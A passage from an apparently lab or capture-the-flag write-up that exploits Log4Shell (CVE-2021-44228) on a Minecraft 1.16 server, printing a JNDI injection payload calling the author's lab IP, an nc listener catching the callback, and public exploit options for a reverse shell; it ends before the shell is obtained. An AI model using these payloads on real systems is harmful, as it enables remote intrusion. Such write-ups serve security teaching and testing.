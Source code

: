 ### Foothold

#### Enumeration

The prompt says that this is Minecraft version 1.16. [This
page](https://minecraft.fandom.com/wiki/Java_Edition_1.16) details that
version, including that it was released in June 2020.

Immediately what comes to mind for me is Log4Shell, a vulnerability
([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)) in a
common Java logging library, Log4j. When this vulnerability went public in
December 2021, Minecraft servers were a very common target. [This
page](https://help.minecraft.net/hc/en-us/articles/4416199399693-Security-
Vulnerability-in-Minecraft-Java-Edition) from Minecraft talks about needing to
patch the server. For this version:

![image-20231219143651222](../img/image-20231219143651222.png)

#### Log4Shell POC

To test for Log4Shell, I’ll use a simple payload (using my HackingLab VPN tun0
IP):

    
    
    ${jndi:ldap://10.13.0.30/test}
    

If the server is vulnerable, when it tries to log this, it will initiate an
LDAP connection to my server. I’ll start `nc` on my host and send that payload
into the chat box in the website. Almost immediately, there’s a connection at
`nc`:

    
    
    oxdf@hacky$ nc -lnvp 389
    Listening on 0.0.0.0 389
    Connection received on 152.96.15.3 59140
    0
     `
    
    

I can’t decipher what’s sent, but that’s not the point. I’ve got the server
requesting something over LDAP.

#### Shell

I’ll use [this exploit](https://github.com/kozmer/log4j-shell-poc) by cloning
it to my VM, installing the required packages, and starting a `nc` listener on
TCP 443. I’ll invoke the script with the following options:

  * `--userip 10.13.0.30` \- This tells the script my IP for communications with the server.
  * `--webport 8000` \- The LDAP response is going to trigger a connection back on HTTP to get a serialized Java payload. This option tells the exploit where to listen for that.
  * `--lport 443` \- I want the reverse shell to connect back on 443.
